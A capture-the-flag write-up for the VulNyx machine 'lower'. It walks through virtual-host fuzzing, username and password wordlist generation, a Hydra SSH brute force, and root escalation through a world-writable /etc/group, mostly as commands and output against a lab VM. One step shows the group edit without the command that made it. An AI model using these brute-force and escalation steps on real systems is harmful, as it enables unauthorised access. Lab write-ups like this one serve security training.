

# lower

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| lower | d4t4s3c | Low | VulNyx |

**Summary:** The lower machine began with an Apache web server that redirected every request to the virtual host `www.unique.nyx`, hinting at a host-based routing scheme. A virtual host fuzz of `unique.nyx` using ffuf surfaced the hidden subdomain `tech.unique.nyx`, a corporate site whose Team page exposed the names of three employees: Tom Rensed, Kathren Mory, and Lancer Jack. Feeding those names through `username-anarchy` produced a rich list of candidate usernames, while a CeWL crawl of the site, run with the `--with-numbers` flag, harvested a password wordlist that captured a suspicious leetspeak string, `NewY0rk`, hidden inside the page text. That combination fed a Hydra brute force against the SSH service, which recovered a working password for the `lancer` account. Once inside, a filesystem-wide search for world-writable paths exposed a severe misconfiguration: `/etc/group` was writable by any user. The attacker appended `lancer` to the `sudo` group, reconnected to refresh the group membership, and invoked `sudo su` to drop into a root shell without supplying a root password, completing the escalation.

---

## Reconnaissance

The assessment opened with a host discovery sweep across the lab network to locate the target machine.

1. A ping sweep identified the victim host at `192.168.56.105`, a VirtualBox guest:

```bash
┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ nmap -sn 192.168.56.0/24
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-11 08:49 -0400
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00034s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.0029s latency).
MAC Address: 08:00:27:2B:EC:02 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.105 (192.168.56.105)
Host is up (0.0021s latency).
MAC Address: 08:00:27:74:7F:C6 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104 (192.168.56.104)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.06 seconds

┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ ip=192.168.56.105
```

2. A full port scan with service and script enumeration was then launched against the target:

```bash
┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-11 08:50 -0400
Nmap scan report for 192.168.56.105 (192.168.56.105)
Host is up (0.00018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Did not follow redirect to http://www.unique.nyx
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:74:7F:C6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.75 seconds
```

The scan returned only two open ports: SSH on port 22 and an Apache web server on port 80. The HTTP title itself was revealing, since it stated that the server refused to follow a redirect to `http://www.unique.nyx`. This meant the web application was organized around virtual hosts and would only answer correctly when addressed by the right domain name.

3. The domains `unique.nyx` and `www.unique.nyx` were mapped to the target IP in the local hosts file:

```bash
┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ echo '192.168.56.105 www.unique.nyx unique.nyx' | sudo tee -a /etc/hosts
192.168.56.105 www.unique.nyx unique.nyx
```

4. A request was issued with verbose output to observe the redirect behavior:

```bash
┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ curl -iv 'http://www.unique.nyx'
* Host www.unique.nyx:80 was resolved.
* IPv6: (none)
* IPv4: 192.168.56.105, 192.168.56.105
*   Trying 192.168.56.105:80...
* Established connection to www.unique.nyx (192.168.56.105 port 80) from 192.168.56.104 port 43432
* using HTTP/1.x
> GET / HTTP/1.1
> Host: www.unique.nyx
> User-Agent: curl/8.20.0
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Date: Tue, 11 Aug 2026 13:10:45 GMT
Date: Tue, 11 Aug 2026 13:10:45 GMT
< Server: Apache/2.4.62 (Debian)
Server: Apache/2.4.62 (Debian)
< Location: http://www.unique.nyx
Location: http://www.unique.nyx
< Content-Length: 0
Content-Length: 0
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8
<

* Connection #0 to host www.unique.nyx:80 left intact
```

The constant `302 Found` response, regardless of the path requested, indicated that additional virtual hosts were being hidden behind the `unique.nyx` domain. A virtual host fuzz was the natural next step.

5. ffuf was used to brute force subdomains by injecting candidates into the `Host` header:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ ffuf -u "http://unique.nyx/" -H 'Host: FUZZ.unique.nyx' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -fc 302

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://unique.nyx/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.unique.nyx
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

tech                    [Status: 200, Size: 19766, Words: 4127, Lines: 453, Duration: 13ms]
TECH                    [Status: 200, Size: 19766, Words: 4127, Lines: 453, Duration: 20ms]
Tech                    [Status: 200, Size: 19766, Words: 19766, Lines: 453, Duration: 4ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

The virtual host `tech.unique.nyx` answered with a real page, so it was added to the hosts file and opened in the browser.

6. The new subdomain was registered locally:

```bash
┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ echo '192.168.56.105 tech.unique.nyx' | sudo tee -a /etc/hosts
192.168.56.105 tech.unique.nyx
```


The rendered site was a corporate theme for a technology firm. Its Team page revealed three employees by name: Tom Rensed, Kathren Mory, and Lancer Jack. These identities were prime candidates for username generation, since the SSH service sat exposed and would accept a brute force attempt.

---

## Initial Access

### Username and Password Wordlist Generation

7. The three employee names were written to a plaintext file:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ printf "Tom Rensed\nKathren Mory\nLancer Jack\n" > names.txt

┌──(kali㉿kali)-[~/nyx]
└─$ cat names.txt
Tom Rensed
Kathren Mory
Lancer Jack
```

8. The names were expanded into every common username convention using `username-anarchy`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ username-anarchy -i names.txt > usernames.txt

┌──(kali㉿kali)-[~/nyx]
└─$ wc -l usernames.txt
44 usernames.txt

┌──(kali㉿kali)-[~/nyx]
└─$ tail -n 5 usernames.txt
jackl
jack
jack.l
jack.lancer
lj
```

The generator produced 44 candidate logins, covering patterns such as `firstinitial.lastname`, `firstname`, and `firstname.lastname` for each employee.

9. A password dictionary was harvested from the live site with CeWL. The `--with-number` flag was essential because it allowed CeWL to retain tokens containing digits, which a plain word crawl would discard:

```bash
┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ cewl http://tech.unique.nyx --with-number -w wordlists.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```



The crawl of the site content revealed odd information: references to `unique infoway` and a stylized rendering of New York written as `NewY0rk`. That deliberate leetspeak substitution was a strong signal that the site itself was seeding password material, and it justified capturing every word that mixed letters and digits.

### SSH Brute Force

10. Hydra was pointed at the SSH service with the generated username list and the CeWL password list:

```bash
┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ hydra -L usernames.txt -P wordlists.txt 192.168.56.105 ssh -t 64 -V -F
Hydra v9.5 (c) 2023 by van Hauser/THC and David Maciejak

[DATA] max 64 tasks per 1 server, overall 64 tasks, 2827 login tries (l:44, p:...), ~45 tries per task
[DATA] attacking ssh://192.168.56.105:22/
[22][ssh] host: 192.168.56.105   login: lancer   password: NewY0rk
[STATUS] attack finished for 192.168.56.105 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

The pair `lancer:NewY0rk` was recovered, confirming that the suspicious leetspeak word found in the page text was indeed the account password.

11. The recovered credentials granted a shell on the target:

```bash
┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ ssh lancer@192.168.56.105
lancer@192.168.56.105's password: 
lancer@lower:~$ id
uid=1000(lancer) gid=1000(lancer) groups=1000(lancer)
```

---

## Privilege Escalation

### Abusing the Writable /etc/group

12. A filesystem-wide search for world-writable files and directories was performed, filtering out the noisy virtual filesystems:

```bash
lancer@lower:~$ find / -writable 2>/dev/null | grep -v -i -E 'home|proc|run|sys|tmp|dev|var'
/etc/group
```

The only result outside the writable areas of a normal user was `/etc/group`, which is precisely the file that defines group membership and powers `sudo`.

13. The permissions of that file were inspected:

```bash
lancer@lower:~$ ls -la /etc/group
-rw-r--rw- 1 root root 619 Apr  9  2025 /etc/group
```

The `-rw-r--rw-` mode showed that the group file was writable by any user on the system. A root-owned, world-writable group database is effectively a root escalation primitive, because it allows an attacker to add their own account to the `sudo` group.

14. The `lancer` user was appended to the `sudo` group by editing the file:

```bash
lancer@lower:~$ sudo:x:27:lancer
lancer@lower:~$ grep '^sudo' /etc/group
sudo:x:27:lancer
```

Group memberships are fixed at login time, so a fresh SSH session was required for the change to take effect.

15. Reconnecting to the target confirmed the new group membership:

```bash
┌──(venv)─(kali㉿kali)-[~/nyx]
└─$ ssh lancer@192.168.56.105
lancer@192.168.56.105's password: 
lancer@lower:~$ id
uid=1000(lancer) gid=1000(lancer) groups=1000(lancer),27(sudo)
```

16. With membership in the `sudo` group, the `lancer` password granted a root shell:

```bash
lancer@lower:~$ sudo su
[sudo] password for lancer: 
root@lower:/home/lancer# id; whoami; hostname
uid=0(root) gid=0(root) groups=0(root)
root
lower
```

Full root access was achieved by combining the world-writable `/etc/group` misconfiguration with the password recovered from the SSH brute force.

---

## Attack Chain Summary

1. **Reconnaissance**: A ping sweep located the target at `192.168.56.105`, and a full Nmap scan exposed SSH on port 22 and an Apache server on port 80 that redirected to the virtual host `www.unique.nyx`.

2. **Vulnerability Discovery**: A ffuf fuzz of the `Host` header uncovered the hidden virtual host `tech.unique.nyx`. Its Team page listed three employee names, and a CeWL crawl with `--with-number` harvested a password wordlist that included the leetspeak token `NewY0rk`.

3. **Exploitation**: `username-anarchy` expanded the employee names into 44 candidate usernames, which Hydra paired against the CeWL wordlist to brute force SSH and recover valid credentials for the `lancer` account.

4. **Internal Enumeration**: A search for world-writable paths found `/etc/group` with mode `-rw-r--rw-`, meaning any local user could modify the group database.

5. **Privilege Escalation**: The `lancer` user was added to the `sudo` group inside `/etc/group`, a fresh SSH session refreshed the group membership, and `sudo su` produced a root shell, fully compromising the machine.
